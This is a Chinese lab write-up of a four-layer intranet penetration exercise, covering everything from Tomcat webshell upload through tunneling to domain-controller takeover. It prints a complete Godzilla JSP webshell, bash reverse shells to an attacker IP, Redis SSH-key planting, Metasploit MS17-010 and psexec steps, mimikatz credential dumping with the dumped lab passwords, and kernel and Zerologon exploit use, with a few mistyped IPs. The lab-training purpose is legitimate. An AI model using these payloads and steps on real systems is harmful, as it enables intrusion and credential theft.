




# 记一次四层内网攻防渗透测试大实验 - 先知社区

记一次四层内网攻防渗透测试大实验

- - -

# **一、实验环境**

# **1.网络拓扑**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230619193652-95d401e2-0e95-1.png)

# **二、实验步骤**

## 1 实验一：信息收集

先使用常见的 ICMP 协议查看目标，目标网站的 IP 为 192.168.1.129

```plain
ping 192.168.1.129      # 探测目标主机
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621143316-8173403c-0ffd-1.png)  
然后直接对目标 IP 进行端口扫描：

```plain
nmap -T4 -sC -sV -p 1-10000 192.168.1.129
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621143329-891e5790-0ffd-1.png)

如上图，目标开启了 22、80、81 和 6379 端口。  
对目标 192.168.1.129 进行目录爆破：

```plain
python3 dirsearch.py -u "http://192.168.1.129" -e *
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621143339-8f04e3c2-0ffd-1.png)

拼接 url：[http://192.168.1.129/manager/html](http://192.168.1.129/manager/html) ，发现可访问打开 tomcat 管理页面。输入弱密码 tomcat: tomcat，即可访问后台：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621143531-d1ef4a38-0ffd-1.png)

使用 goby 对目标 192.168.1.129 进行扫描，发现了 redis 未授权访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621143538-d5cd3066-0ffd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621143545-da130128-0ffd-1.png)

## **2 实验二：tomcat 后台 getshell**

弱口令爆破：[http://192.168.1.129/manager/html](http://192.168.1.129/manager/html)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621143916-5821de9a-0ffe-1.png)

提交用户名和密码后抓包，设置 Authorization: Basic MTIzOjEyMw==这一部分为 payload 变量。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144007-76095b2c-0ffe-1.png)

设置 payload 为 Custom iterator，并按顺序设置以下 3 个 payload。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144028-82acf640-0ffe-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144034-8699c562-0ffe-1.png)  
在此模块设置对 payload 的处理方式

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144053-91742018-0ffe-1.png)

然后 start attack，获得密码，即可登录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144114-9e666f60-0ffe-1.png)

base64 解码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144137-abbea1aa-0ffe-1.png)

输入账号密码 tomcat：tomcat 后进入 tomcat 的后台管理页面，发现一处上传 war 包即可直接 getshell。  
使用哥斯拉生成一个 jsp 马，将其单独放置于一个目录下，进入该目录，密码为 pass

```plain
<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}%>
```

将 shell.jsp 马打包成 war 包

```plain
./jar.exe cvf shell.war shell.jsp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144213-c11f24a2-0ffe-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144219-c4b4e7f0-0ffe-1.png)  
进入登录界面，部署上传

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144240-d160e422-0ffe-1.png)  
链接的地址是 /zip 文件的前缀/文件名，比如我这里就是[http://192.168.1.129/shell/shell.jsp](http://192.168.1.129/shell/shell.jsp)  
使用哥斯拉进行连接：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144256-dabb5886-0ffe-1.png)

哥斯拉 v4.1 成功连接。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144309-e27903e8-0ffe-1.png)

尝试反弹 shell 到 Kali 上再进行提权：

```plain
bash -c 'exec bash -i >& /dev/tcp/192.168.1.128/8888 0>&1'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144329-ee8b727e-0ffe-1.png)

Kali 进行监听，但是最后没有反应

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144352-fc38f7c0-0ffe-1.png)  
尝试 MSF 的 tcp、http 均不行，故判断为不出网。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144409-06499328-0fff-1.png)

## **3 实验三：从 redis 未授权到 getshell**

既然反弹不了 shell，只能从其他地方进行入手了。  
端口扫描时发现该机器开着 6379 端口，尝试 redis 未授权访问漏洞。  
尝试连接：

```plain
redis-cli -h 192.168.1.129
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144534-38dc9b46-0fff-1.png)

存在 redis 未授权，那么利用就简单了，我们直接往目标主机上写入 SSH 公钥。  
在攻击机上生成 ssh 公钥：

```plain
ssh-keygen -t rsa
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144554-44e511c0-0fff-1.png)

然后将公钥导入 1.txt 文件 (前后用\\n换行，避免和 Redis 里其他缓存数据混合)，再把 1.txt 文件内容写入目标主机的 redis 缓冲里：

```plain
将公钥导入 1.txt 文件：
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > 1.txt 
  把 1.txt 文件内容写入目标主机的 redis 缓冲中：
cat 1.txt | redis-cli -h 192.168.1.129 -p 6379 -x set hello
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144619-53daafc8-0fff-1.png)

然后使用攻击机连接目标机器 Redis，分别执行如下命令将 ssh 公钥写入目标主机。

```plain
设置 redis 的备份路径为/root/.ssh/：config set dir /root/.ssh
设置保存文件名为 authorized_keys：config set dbfilename authorized_keys
将数据保存在目标服务器硬盘上：save
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144632-5b8a20e6-0fff-1.png)  
写入成功后直接尝试连接：

```plain
ssh 192.128.1.129
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144646-64230df8-0fff-1.png)  
成功连接 192.1681.129 后，进行信息搜集发现了这台主机的内网 ip 地址 192.168.52.10

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144701-6cf5cf74-0fff-1.png)  
因为之前的 shell 反弹不了，所以看一下 nginx 的配置文件是不是做了反向代理

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144716-75ce6cfa-0fff-1.png)  
发现了 nginx 反向代理的标志 proxy\_pass。ubuntu 18（192.168.52.10）服务器上的 nginx 将 80 端口收到的请求转发给了 [http://192.168.52.20:8080，将](http://192.168.52.20:8080，将) 81 端口收到的请求转发给了 [http://192.168.52.20:8000。](http://192.168.52.20:8000。)  
所以 80 端口的 shell 反弹不到攻击机，只能使用 ubuntu18 (web1)（192.168.52.10）做为跳板机，先将 tomcat 的 shell（192.168.52.20）反弹到 ubuntu (web1)

```plain
nc -lvp 1234
bash -c "bash -i >& /dev/tcp/192.168.52.10/1234 0>&1"   # 反弹 shell
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144728-7d2dfaba-0fff-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621144734-806bfede-0fff-1.png)

## 4 实验四：cve-2021-3493 提权

linux kernel 一般指 Linux 内核。Linux 是一种开源电脑操作系统内核。它是一个用 C 语言写成，符合 POSIX 标准的类 Unix 操作系统。  
linux 内核中的 overlayfs 文件系统中没有正确地验证用户名称空间和底层文件系统中文件功能的设置。由于非特权用户名称空间和 Ubuntu 内核中允许非特权覆盖的补丁的组合，攻击者可以使用它来获得更高的特权。  
CVE-2021-3493 漏洞影响版本：

-   Ubuntu 20.10
-   Ubuntu 20.04 LTS
-   Ubuntu 18.04 LTS
-   Ubuntu 16.04 LTS
-   Ubuntu 14.04 ESM
    
    ```plain
    uname -a            # 查看系统详细信息
    hostname            # 当前主机的主机名
    ```
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20230621145027-e7fea1f0-0fff-1.png)  
    漏洞利用 exp 下载地址：[https://github.com/briskets/CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)  
    进入到 tmp 目录
    
    ```plain
    vim exploit.c           #将下载的 exploit.c 的内容粘贴到该文件中
    gcc exploit.c -o exploit    #编译
    chmod +x exploit
    ./exploit
    ```
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20230621145041-efffe9ea-0fff-1.png)

成功提权。

注意事项：vim exploit.c 后需要输入 i 后复制[https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c中的内容；若不输入i，编译时会报错。](https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c%E4%B8%AD%E7%9A%84%E5%86%85%E5%AE%B9%EF%BC%9B%E8%8B%A5%E4%B8%8D%E8%BE%93%E5%85%A5i%EF%BC%8C%E7%BC%96%E8%AF%91%E6%97%B6%E4%BC%9A%E6%8A%A5%E9%94%99%E3%80%82)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145108-0037fa28-1000-1.png)

发现第三个网段：  
fconfig

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145129-0cdf5dca-1000-1.png)

## **5 实验五：两层隧道搭建**

Socks 隧道搭建使用 FRP + proxychains 实现，frp 项目地址：[https://github.com/fatedier/frp](https://github.com/fatedier/frp) ,搭建过程中使用到的端口需要在防火墙开放，需要注意不同系统需下载不同版本，如攻击机（服务端）为 linux 则需要下载 linux 版本，受害者（客户端）为 windwos 则需要下载 windwos 版本，以下配置直接复制到 frps.ini、frpc.ini 文件运行即可，运行后使用 socks5 代理工具 proxychains 即可进行流量代理。

-   第一层代理（反向）：  
    服务端（server）：kali(192.168.1.128)

```plain
frps.ini

[common]
Bind_addr = 0.0.0.0
bind_port = 7000

启动
chmod +777 frps
./frps -c ./frps.ini
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145229-30cd8ff4-1000-1.png)  
客户端（client）：ubuntu-web1(192.168.1.129)  
会将客户端中所有的流量通过本地的一个随机端口转发给 vps 的 7000 端口，我们访问 vps 的 7777 端口就相当于访问客户端的 7000 端口

```plain
frpc.ini

[common]
server_addr = 192.168.1.128
server_port = 7000

[plugin_socks]
type = tcp
remote_port = 7777
plugin = socks5

上传 frp

tar czvf 1.tgz frp_0.49.0_linux_amd64       # 压缩 frp(192.168.1.128 终端)
python3 -m http.server  (192.168.1.128 终端)
wget http://192.168.1.128:8000/1.tgz;tar -zxvf 1.tgz    (192.168.1.129 终端)
启动
chmod +777 frpc
nohup ./frpc -c ./frpc.ini >/dev/null 2>&1 &
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145249-3c3ecbe6-1000-1.png)

-   第二层代理（反向）：  
    服务端（server）：ubuntu-web1(192.168.52.10)

```plain
frps.ini

[common]
bind_addr = 192.168.52.10
bind_port = 7000

启动
chmod +777 frps
./frps -c ./frps.ini
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145333-569d80d6-1000-1.png)  
客户端（client）ubuntu-web2(192.168.52.20)  
会将客户端中所有的流量通过本地的一个随机端口转发给 vps 的 7000 端口，我们访问 vps 的 7777 端口就相当于访问客户端的 7000 端口

```plain
frpc.ini

[common]
server_addr = 192.168.52.10
server_port = 7000

[plugin_socks]
type = tcp
remote_port = 7777
plugin = socks5

上传 frp
tar czvf 1.tgz frp_0.49.0_linux_amd64       # 压缩 frp(192.168.52.10 终端)
python3 -m http.server  (192.168.52.10 终端)
wget http://192.168.52.10:8000/1.tgz;tar -zxvf 1.tgz    (192.168.52.20 终端)
启动
chmod +777 frpc
nohup ./frpc -c ./frpc.ini >/dev/null 2>&1 &
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145356-6452551c-1000-1.png)

kali 本地添加 proxy 配置

```plain
vim /etc/proxychains4.conf 
socks5 192.168.1.128 7777
socks5 192.168.52.10 7777
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145409-6c274680-1000-1.png)

通过代理，测试一下

```plain
proxychains nmap -Pn -sT -sV -F -O 192.168.52.20
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145425-75e8126c-1000-1.png)

## **6 实验六：OpenSSH 命令注入漏洞 (CVE-2020-15778)**

OpenSSH 是 SSH（Secure SHell）协议的免费开源实现。OpenSSH 是个 SSH 的软件，linux/unix 都用 openssh 软件提供 SSH 服务。scp 是 secure copy 的缩写，scp 是 linux 系统下基于 ssh 登陆进行安全的远程文件拷贝命令。  
该漏洞编号 CVE-2020-15778。OpenSSH 的 8.3p1 及之前版本中的 scp 允许在 scp.c 远程功能中注入命令，攻击者可利用该漏洞执行任意命令。

```plain
通过 proxychains 扫描第三层网络：
探测 92.168.71.1/24 网段存活主机
proxychains nmap -Pn -sT -sV -F -O 192.168.71.1/24
扫描 192.168.71.20
proxychains nmap -Pn -sT -sV -F -O 192.168.71.20
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145725-e100780a-1000-1.png)  
发现 192.168.71.20 的 OpenSSH 版本低于 8.3p1  
使用 hydra 对 192.168.71.20 进行爆破

```plain
proxychains hydra -L /usertest.txt -P /passtest.txt ssh://192.168.71.20
```

\-L /usertest.txt #用户  
\-P /passtest.txt #密码  
ssh://192.168.71.20 #协议

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145752-f0fe60b4-1000-1.png)  
此处存在弱口令 cs/123  
利用 scp 命令，对 centos 进行写文件，复制文件。

```plain
scp / test.txt cs@192.168.71.20:'`touch /tmp/test.sh`/tmp'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145807-fa458ea4-1000-1.png)  
ssh 连接 192.168.71.20

```plain
proxychains ssh cs@192.168.71.20
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145820-017d4144-1001-1.png)  
连接成功，发现 192.168.93.10 网段。

-   第三层代理  
    服务端（server）：web2(192.168.71.10)

```plain
frps.ini

[common]
Bind_addr = 192.168.71.10
bind_port = 7000 #服务端监听端口，默认 7000。监听来自客户端的流量

启动
chmod +777 frps
./frps -c ./frps.ini
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145841-0e7933c6-1001-1.png)  
客户端（client）：ubuntu-web1(192.168.71.20)  
会将客户端中所有的流量通过本地的一个随机端口转发给 vps 的 7000 端口，我们访问 vps 的 7777 端口就相当于访问客户端的 7000 端口

```plain
frpc.ini

[common]
server_addr = 192.168.71.10
server_port = 7000

[plugin_socks]
type = tcp
remote_port = 7777
plugin = socks5

上传 frp
proxychains scp / Desktop/3.tgz cs@192.168.71.20:'/tmp'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145901-1a04e3b6-1001-1.png)

```plain
tar -zxvf 3.tgz #解压
启动
chmod +777 frpc
nohup ./frpc -c ./frpc.ini >/dev/null 2>&1 &
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145925-2860e220-1001-1.png)  
kali 本地添加 proxy 配置

```plain
vim /etc/proxychains4.conf 
socks5 192.168.1.128 7777
socks5 192.168.52.10 7777
socks5 192.168.71.10 7777
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621145944-33c3e054-1001-1.png)

## **7 实验七：内网主机存活扫描**

通过 proxychains 扫描第四层网络：  
探测 92.168.93.1/24 网段存活主机

```plain
proxychains nmap -Pn -sT -sV -F -O 192.168.93.1/24
```

使用 metasploit 的 auxiliary/scanner/smb/smb\_version 模块（可用来探测 Windows 主机存活）来扫描第三层网络中的主机存活：

```plain
proxychains msfconsole
use auxiliary/scanner/smb/smb_version
set rhosts 192.168.93.1-255
set threads 5
run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150022-4a3dfca2-1001-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150027-4db467a4-1001-1.png)

发现第四层网络中还有两个 Windows 主机，分别为 DC（192.168.93.30）和 PC2（192.168.93.40），使用 nmap 进一步扫描主机信息  
扫描 192.168.93.30

```plain
proxychains nmap -Pn -sT -sV -F -O 192.168.93.30
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150049-5a827ffc-1001-1.png)

```plain
proxychains nmap --script smb-vuln-ms17-010 192.168.93.30
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150105-642b8968-1001-1.png)

扫描 192.168.93.40

```plain
proxychains nmap -Pn -sT -sV -F -O 192.168.93.40
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150119-6c997e98-1001-1.png)  
发现两台机器且存在域

## **8 实验八：ms17-010**

Eternalblue 通过 TCP 端口 445 和 139 来利用 SMBv1 和 NBT 中的远程代码执行漏洞，恶意代码会扫描开放 445 文件共享端口的 Windows 机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。  
已知受影响的 Windows 版本包括但不限于：Windows NT，Windows 2000、Windows XP、Windows 2003、Windows Vista、Windows 7、Windows 8，Windows 2008、Windows 2008 R2、Windows Server 2012 SP0。  
使用 Metasploit 对目标进行监听

```plain
proxychains msfconsole  # 启动 Metasploit
search ms17-010     # 查找永恒之蓝漏洞
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150231-970eab26-1001-1.png)

```plain
use exploit/windows/smb/ms17_010_eternalblue  #执行漏洞
set payload windows/x64/meterpreter/reverse_tcp  #执行 payload
show options  #查看当前攻击配置
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150247-a1231692-1001-1.png)  
将配置中第一行的 RHOST 修改为 192.168.93.30

```plain
set rhost 192.168.93.30
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150302-a9889122-1001-1.png)  
配置完成后，使用 run 命令执行程序，如果执行成功，会进入 windows 系统的命令行

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150328-b98d04e0-1001-1.png)

会话创建失败，域控这个先放一放，看看 WIn7 机器能不能进行上线

```plain
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.93.40
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.40
set lport 4444
exploit
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150407-d0cb765a-1001-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150417-d6aa12de-1001-1.png)

拿下一个

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150456-edb391f8-1001-1.png)

```plain
screenshot  # 截屏
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150517-fa2067f4-1001-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150523-fe060de2-1001-1.png)  
上传/下载文件

```plain
upload ~/Desktop/test.txt C://frp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150536-057aa984-1002-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150542-0952c0aa-1002-1.png)

## **实验九：内网信息收集**

拿下第四层网络中的 Windows 7 服务器后，接下来我们对目标内网环境进行信息收集，对目标网络有一个初步的了解：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150642-2d02c5c2-1002-1.png)

抓取域用户密码  
使用 meterpreter 上的 kiwi 模块尝试抓取域用户及域管理员的密码：

```plain
load kiwi
kiwi_cmd privilege::debug
kiwi_cmd sekurlsa::logonPasswords
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150654-34617e12-1002-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150659-3759027a-1002-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150705-3a8e1f5c-1002-1.png)  
成功抓取到域用户 moretz 和域管理员 administrator 的凭证：

```plain
moretz：Moretz2021
administrator：Whoami2021
```

远程桌面

```plain
proxychains rdesktop 192.168.93.40
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150724-46306536-1002-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621150732-4a88b854-1002-1.png)

```plain
ipconfig /all   # 查看本机 ip，所在域
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151110-cccae3aa-1002-1.png)

```plain
systeminfo      # 列出系统信息
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151152-e5db78dc-1002-1.png)

```plain
route print     # 打印路由信息
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151218-f53ff4d8-1002-1.png)

```plain
net view        # 查看局域网内其他主机名
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151241-02ade454-1003-1.png)

```plain
netstat -ano        # 查看端口连接情况
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151257-0cb12876-1003-1.png)

```plain
tasklist            # 查看当前进程
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151318-18e2e634-1003-1.png)

```plain
arp -a          # 查看 arp 缓存
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151355-2f2cca22-1003-1.png)

```plain
whoami
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151418-3ced6ac2-1003-1.png)

```plain
net start       # 查看开启了哪些服务
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151447-4e42496e-1003-1.png)

```plain
net share       # 查看开启了哪些共享
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151459-552feaba-1003-1.png)

```plain
net config workstation   # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151539-6d06ec92-1003-1.png)

```plain
net user                 # 查看本机用户列表
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151557-77c7a41e-1003-1.png)

```plain
net user /domain         # 查看域用户
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151614-8219b786-1003-1.png)

```plain
net localgroup administrators   # 查看本地管理员组（通常会有域用户）
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151630-8b850c76-1003-1.png)

```plain
net view /domain         # 查看有几个域
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151648-95f22f40-1003-1.png)

```plain
net user 用户名 /domain   # 获取指定域用户的信息
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151718-a7e54944-1003-1.png)

```plain
net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151733-b0ba87fa-1003-1.png)

```plain
net group 组名 /domain    # 查看域中某工作组
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151753-bcda4598-1003-1.png)

```plain
net group "domain admins" /domain  # 查看域管理员的名字
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151819-cc55a6ac-1003-1.png)

```plain
net group "domain computers" /domain  # 查看域中的其他主机名
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151840-d908e7e2-1003-1.png)

```plain
net group "domain controllers" /domain  # 查看域控制器（可能有多台）
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621151903-e6685792-1003-1.png)

## **10 实验十：获取域控（CVE-2020-1472）**

当攻击者使用 Netlogon 远程协议 (MS-NRPC) 建立与域控制器连接的 Netlogon 安全通道时，存在权限提升漏洞。成功利用此漏洞，攻击者可以在网络中的设备上运行经特殊设计的应用程序。要利用此漏洞，未通过身份验证的攻击者需要将 MS-NRPC 连接到域控制器，以获取域管理员访问权限，从而造成提权。 (漏洞编号：HWPSIRT-2020-18310)。  
影响版本：

-   Windows Server 2008 R2 for x64-based Systems Service Pack 1
-   Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
-   Windows Server 2012
-   Windows Server 2012 (Server Core installation)
-   Windows Server 2012 R2
-   Windows Server 2012 R2 (Server Core installation)
-   Windows Server 2016
-   Windows Server 2016 (Server Core installation)
-   Windows Server 2019
-   Windows Server 2019 (Server Core installation)
-   Windows Server, version 1909 (Server Core installation)  
    漏洞验证：
    
    ```plain
    proxychains python3 zerologon_tester.py DC 192.168.93.30
    ```
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621152121-38917972-1004-1.png)  
显示 success 表示漏洞存在  
脚本地址：[https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)  
尝试远程桌面登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621152135-40e936fa-1004-1.png)  
利用 psexec 登陆。

```plain
use exploit/windows/smb/psexec
set rhosts 192.168.93.30
set SMBUser administrator
set SMBPass Whoami2021
set payload windows/meterpreter/bind_tcp
set rhost 192.168.93.30
run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621152146-47e0f308-1004-1.png)

拿下域控

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621152202-516b1386-1004-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230621152212-57690964-1004-1.png)

## **总结**

从外网打点到内网横向，最后拿下域控，学到了很多，同时感谢大佬们的博客，如有不妥之处，还请各位大佬斧正。

## **参考文章：**

```plain
http://vulnstack.qiyuanxuetang.net/vuln/detail/9/
https://forum.butian.net/share/236
https://www.cnblogs.com/wkzb/p/14877913.html
https://xz.aliyun.com/t/12498
https://www.freebuf.com/articles/network/264560.html
```
